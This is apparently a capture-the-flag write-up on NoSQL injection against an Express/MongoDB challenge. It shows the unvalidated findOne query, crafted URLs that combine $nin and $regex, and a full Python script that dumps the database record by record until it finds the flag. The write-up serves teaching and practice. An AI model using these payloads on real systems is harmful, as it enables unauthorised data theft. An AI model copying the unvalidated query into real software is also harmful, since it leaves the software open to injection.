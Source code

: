 This was a (long) but educational challenge on NoSQL injections! The key was to understand how the Express nodeJS module parses the GET parameters into the object for the noSQL query, and read the documentation carefully to know which operators to use. Let's dig in.

First thing we can see in the source code is that part in the GET function for `/secret_share`:

```javascript
var secid = request.query.secid;
var sec = collection.findOne({id: secid});
```

where it builds the `secid` object out of the `secid` GET paramater, and does a `findOne` query to the MongoDB. With no input validation, this is injectable, and we can find the basics of NoSQL injection on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master) under 'NoSQL injection'  where you can learn about using `$regex`, `$ne`, `$gt`, `$nin`, and `$regex` to bypass authentication and dump information. That isn't quite what we need though as we can only act with operators on the `secid`, on not on the secret itself. So not being able to check for a `secret` starting with `CSR{`, we'll have to dump the whole database until we find that secret.

Our approach was to combine `$nin` and `$regex` to dump each part of the whole SHA256 space. Using `$gt` didn't work as mongoDB compares hashes as string values and not as hex integers, so starting from `02...` we would very fast get to `ff...` and not get any response anymore. Digging in the mongoDB documentation, we find that `$nin` and `$regex` are used as follows:

```
{ field: { $nin: [ value1, value2 ... valueN ]} }
{ field: { $regex: '/pattern/<options>' } }
```
The idea was to add found `secid`s to a `$nin` list until we get the flag. That by itself gets old pretty fast though as we can't add stuff to the URL indefinetely, so here comes the `$regex` to the rescue to allow us to dump only all the `secret`s whose `secid` start with `123` for example. But first we have to understand how we build that list for `$nin`. We had a first clue in the PayloadAllTheThings page with this example: `login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto`, but the best way to make sure how our GET parameters where parsed into an object was to create our own small Express NodeJS server and test it:

```javascript
var port = 8000;
var express = require('express');
var app = express();
app.get('/', function(request, response) {
    console.log({id: request.query.secid});
});

app.listen(port, () => {
    console.log(`Example app listening at http://localhost:${port}`)
})
```

That allowed us to test that this URL: 
```
http://localhost:8000/?secid[$nin]=hash&secid[$nin]=hash&secid[$regex]=^123
```
resulted in this object: 
```
{ id: { '$nin': [ 'hash', 'hash' ], '$regex': '^123' } }
```
which is exactly what we need for `$nin` and `$regex` from the mongoDB documentation. So we just keep adding hashes to the `$nin` list until we don't get a response anymore, and then we increase the `$regex` and move on to another part of the database.

Doing that continuously, we finally get the flag:
```
621565431f909b5b796d023e1e280fe0c4c60517476157e3da7c9ba2e09b6bfc CSR{We_Call_Him_Little_Bobby_NoTables}
```

The whole exploit code can be found below:

```python
import re
from requests import get
from hashlib import sha256
from itertools import product
from time import sleep

for p in product('0123456789abcdef',repeat=3):
    prefix = ''.join(p)
    secrets = []
    url = 'http://chal.cybersecurityrumble.de:37585/secret_share?'
    nin = 'secid[$nin]={}'
    ne = 'secid[$ne]={}'
    regex = 'secid[$regex]=^{}'.format(prefix)

    res = get(url+regex)
    result = re.search('-->(.*)<!--',res.text)
    if not result:
        print('got an error')
        continue
    secret = result.groups()[0]
    secid = sha256(secret.encode()).hexdigest()
    secrets.append((secid,secret))

    res = get(url+ne.format(secrets[0][0]))
    result = re.search('-->(.*)<!--',res.text)
    if not result:
        print('got an error')
        continue
    secret = result.groups()[0]
    secid = sha256(secret.encode()).hexdigest()
    secrets.append((secid,secret))
    i = 2
    while True:
        sleep(0.5)
        toget = '&'.join([nin.format(secrets[j][0]) for j in range(i)])
        toget += '&'+regex
        res = get(url+toget)

        result = re.search('-->(.*)<!--',res.text)
        if not result:
            print('got an error')
            break
        secret = result.groups()[0]
        secid = sha256(secret.encode()).hexdigest()
        print(secid,secret)
        if 'csr' in secret.lower():
            print('Got it')
            print(secret)
            exit()
        secrets.append((secid,secret))
        i += 1

```
